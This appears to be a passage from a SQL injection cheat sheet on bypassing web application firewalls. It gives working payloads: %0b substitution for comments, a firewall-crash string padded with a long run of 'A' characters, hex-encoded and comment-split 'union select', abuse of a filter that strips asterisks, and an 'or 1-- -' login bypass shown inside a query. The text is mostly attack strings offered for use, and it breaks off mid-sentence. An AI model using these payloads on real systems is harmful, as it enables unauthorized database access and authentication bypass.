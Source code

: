 For Mod_rewrite, Comments "/\*\*/" cannot bypassed. So we use "%0b"
replace "/\*\*/".

    Forbidden: http://victim.com/main/news/id/1/**/
    |
    |/**/lpad(first_name,7,1).html
    Bypassed : http://victim.com/main/news/id/1%0b
    |
    |%0blpad(first_name,7,1).html

## Advanced Methods

Crash Firewall via doing Buffer Over Flow.

1\) Buffer Overflow / Firewall Crash: Many Firewalls are developed in
C/C++ and we can Crash them using Buffer Overflow.

```
    http://www.site.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 “A”)..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4….

    You can test if the WAF can be crashed by typing:
    ?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4….

    If you get a 500, you can exploit it using the Buffer Overflow Method.
```

2\) Replace Characters with their HEX Values: We can replace some
characters with their HEX (URL-Encoded) Values.

    Example:
        http://www.site.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4….
        (which means “union select”)

4\) Misc Exploitable Functions: Many firewalls try to offer more
Protection by adding Prototype or Strange Functions\! (Which, of course,
we can exploit\!):

    Example:
        This firewall below replaces “*” (asterisks) with Whitespaces! What we can do is this:
        http://www.site.com/index.php?page_id=-15+uni*on+sel*ect+1,2,3,4…
        (If the Firewall removes the “*”, the result will be: 15+union+select….)
        So, if you find such a silly function, you can exploit it, in this way.

## Auth Bypass

If we need to bypass some admin panels, and we do that using or 1=1.

    Code:
    or 1-- -' or 1 or '1"or 1 or"

SELECT \* FROM login WHERE id=1 or 1-- -' or 1 or '1"or 1 or" AND
username='' AND password='' the "or 1-- -" gets active, make the
condition true and ignores the rest of the query. now lets check regular
string-
